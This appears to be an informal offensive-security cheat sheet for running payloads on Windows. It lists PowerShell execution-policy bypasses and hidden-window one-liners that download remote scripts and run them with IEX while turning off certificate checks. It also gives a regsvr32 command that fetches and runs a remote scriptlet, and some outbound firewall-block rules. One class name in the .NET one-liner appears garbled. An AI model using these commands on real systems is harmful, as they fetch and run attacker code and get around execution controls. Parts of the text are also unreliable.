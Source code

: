 Bypass EP
PowerShell -ep bypass -file script.ps1
Execute script contents directly
Invoke-command with script block {} 
Use stdin and GC: Get-Content .\file.ps1 | PowerShell.exe –NoProfile –Command -

### Windows Firewall rule:
```
New-NetFirewallRule -DisplayName "name" -RemoteAddress -Direction Outbound -Action Block -Enabled True
New-NetFirewallRule -DisplayName "name" -Program program.exe -Direction Outbound -Action Block -Enabled True
```

# Payload execution:

## PowerShell
Download and invoke (Dot Net): `powershell -w hidden -c "[System.Net.SystemPointManager]::ServerCertificateValidationCallback = { $true }; IEX ((new-object net.webclient).downloadstring('https://target/tools'))"`\
Download and invoke (IWR): `powershell.exe –c “IEX (Invoke-WebRequest -SkipCertificateCheck -Method 'GET' -Uri 'https://target/tools')`\
Exection bypass: `powershell.exe -ep bypass -c '{Powershell to execute}'`\
Exection bypass: `powershell.exe -ep bypass -f file_to_open.ps1`\
STDin and Get-Content: `Get-Content .\file.ps1 | PowerShell.exe –NoProfile -ExecutionPolicy ByPass –Command -`

PS Options:

-ExecutionPolicy Bypass\
-NoLogo\
-NonInteractive\
-NoProfile\
-NoExit


## Scrobly doo dobble job job whatever
RegSvr32: `regsvr32.exe /s /n /u /i:http://server/file.sct scrobj.dll`
